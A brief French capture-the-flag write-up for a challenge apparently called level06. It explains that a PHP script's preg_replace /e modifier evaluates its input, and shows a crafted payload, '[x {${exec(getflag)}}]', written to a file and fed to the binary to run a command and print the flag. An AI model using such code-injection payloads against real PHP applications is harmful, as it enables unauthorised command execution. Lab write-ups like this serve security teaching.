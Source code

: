 # Explications
Il y a un script php.![](https://i.imgur.com/2Z8dTCn.png)
On voit que le script utiliser le modifier /e qui permet d'evaluer chaque argument qu'on lui passe. Grace a ca on va pouvoir lui faire utiliser getflag.

Analysons la regex.

    \[x (.*)\]
Avant tout, ca attends que ca commence par "x " donc "x test" remplira la condition.
Ensuite Ca attends le retour de la fonction y.

On va utiliser la function exec pour pouvoir utiliser une commande externe. Ici, on va utiliser getflag.

On crée notre fichier

    echo '[x {${exec(getflag)}}]' > /tmp/level06;
	
et on exécute

    ./level06 /tmp/level06

Notre flag est **wiok45aaoguiboiki2tuin6ub**
